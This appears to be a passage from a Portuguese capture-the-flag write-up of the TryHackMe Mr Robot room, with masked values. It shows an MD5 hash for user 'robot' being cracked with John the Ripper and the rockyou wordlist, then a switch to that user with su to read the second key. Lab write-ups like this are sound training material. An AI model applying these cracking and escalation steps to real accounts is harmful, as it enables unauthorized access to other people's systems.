 ```console
robot:********************************
```


Pra resolver isso, vou precisar escalar privilégios, provavelmente usando o hash como ponto de partida, realizei o seguinte processo de cracking utilizando o `John the Ripper`. Salvei o hash em um arquivo chamado hash.txt, utilizando ´`-n` evito que uma quebra de linha seja adicionada ao final da string, o que é importante para que o hash seja interpretado corretamente.

```console
┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ echo -n "********************************" > hash.txt 
```

Utilizei inicialmente o dicionário `fsocity.dic` com o formato raw-md5. O John conseguiu carregar o hash corretamente, mas não encontrou nenhuma correspondência usando esse dicionário.

```console
┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ john --format=raw-md5 --wordlist=fsocity.dic hash.txt                     
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2025-04-10 19:50) 0g/s 9534Kp/s 9534Kc/s 9534KC/s 2Fwiki..ABCDEFGHIJKLMNOPQRSTUVWXYZ
Session completed. 
```

Como o primeiro dicionário não teve sucesso, utilizei o `rockyou.txt`. 

```console
┌──(c3n0r4㉿kali)-[~/tryhackme/room/mrrobot]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
************************** (?)     
1g 0:00:00:00 DONE (2025-04-10 19:56) 100.0g/s 4051Kp/s 4051Kc/s 4051KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Dessa vez, o John conseguiu encontrar a senha  correta. Com ela, usei o comando `su` para trocar para o usuário `robot` com sucesso e encontrei a segunda chave:

```console
daemon@linux:/$ su robot
su robot
Password: **************************
robot@linux:/$ cat /home/robot/key-2-of-3.txt
cat /home/robot/key-2-of-3.txt
THM{********************************}
```

